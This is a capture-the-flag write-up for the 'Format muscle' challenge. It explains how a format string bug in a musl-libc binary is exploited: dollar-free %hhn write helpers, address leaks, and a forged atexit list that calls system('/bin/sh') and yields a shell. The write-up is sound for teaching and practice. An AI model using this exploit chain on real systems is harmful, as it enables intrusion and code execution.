 # Format muscle

- **Author: 7Rocky**
- **Difficulty: easy**
- **Theme: Format String bug, musl libc**

### Description

Hope your format string muscles are strong!

## Writeup

We are given a binary called `format-muscle`:

```console
$ checksec format-muscle              
[*] './format-muscle'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```

The reverse-engineering step is quite simple. This is the original C code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
	char data[256];

	setbuf(stdout, NULL);

	do {
		fgets(data, sizeof(data), stdin);
		printf(data);
	} while (strncmp(data, "quit", 4));

	exit(0);
}
```

As can be seen, we have a `do`-`while` loop that allows us to enter data in a buffer that will be printed out with `printf`, as the first argument. So, we have a clear Format String bug:

```console
$ nc format-muscle.chal.crewc.tf 1337
== proof-of-work: disabled ==
%d
-1562537493
%lx
7f3da2dd91ec
%p
0x7f3da2dd91eb
```

However, it is a bit more difficult to exploit because we are dealing with musl libc, which does not implement positional format specifiers like `%7$p`, so we must deal with this and craft a payload without dollar signs to achieve code execution.

Although `pwntools` allows a parameter `no_dollars` in `fmtstr_payload`, I implemented the following helper functions for the arbitrary write primitive:

```python
def write_byte(byte: int, addr: int):
    assert 0 <= byte < 2 ** 8
    io.sendline(b'%c%c%c%c' + f'.%{byte + 248}c%c'.encode() + b'%c%c%hhn' + p64(addr))
    io.recv()


def write_qword(qword: int, addr: int):
    assert 0 <= qword < 2 ** 64
    for i in range(8):
        write_byte((qword >> (8 * i)) & 0xff, addr + i)
```

So, first of all, we can get leaks for musl libc and the ELF:

```python
    io.sendline(b'%p')
    musl_libc.address = int(io.recv().decode(), 16) - 0xae1eb
    io.success(f'musl libc base address: {hex(musl_libc.address)}')

    elf_address_str = musl_libc.address + 0xaf561
    io.sendline(b'%p%p%p%p' + b'%p%p%p%s' + p64(elf_address_str))
    io.recvuntil(hex(u64(b'%p%p%p%s')).encode())
    elf.address = u64(b'\0' + io.recv(5) + b'\0' * 2)
    io.success(f'ELF base address: {hex(elf.address)}')
    io.recv()
```

Although there are approaches like modifying return addresses in functions inside `printf`, this time I chose to modify the list of exit functions. You can find the relevant source code [here](https://github.com/kraj/musl/blob/kraj/master/src/exit/atexit.c).

For this, I used a writeable address within the binary to store a fake `struct fl`:

```c
/* Ensure that at least 32 atexit handlers can be registered without malloc */
#define COUNT 32

static struct fl
{
	struct fl *next;
	void (*f[COUNT])(void *);
	void *a[COUNT];
} builtin, *head;
```

Since the exit functions list is started from the end, we must enter the function `system` and the address of `"/bin/sh"` as the argument at the end of the `f` and `a` lists:

```python
    struct_fl_addr = musl_libc.address + 0xafc48
    fake_struct_fl_addr = elf.address + 0x4200

    write_qword(fake_struct_fl_addr, struct_fl_addr)
    write_qword(fake_struct_fl_addr, fake_struct_fl_addr)
    write_qword(musl_libc.sym.system, fake_struct_fl_addr + 0x100)
    write_qword(next(musl_libc.search(b'/bin/sh\0')), fake_struct_fl_addr + 0x200)
```

Then, we just exit the program entering `quit` and we will have a shell:

```console
$ python3 solve.py format-muscle.chal.crewc.tf 1337
[*] './format-muscle'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[+] Opening connection to format-muscle.chal.crewc.tf on port 1337: Done
[+] musl libc base address: 0x79942bf62000
[+] ELF base address: 0x5c1e33f52000
[*] Switching to interactive mode
$ cat /flag
crew{why_n0t_%1337$p_1n_musl???}
```
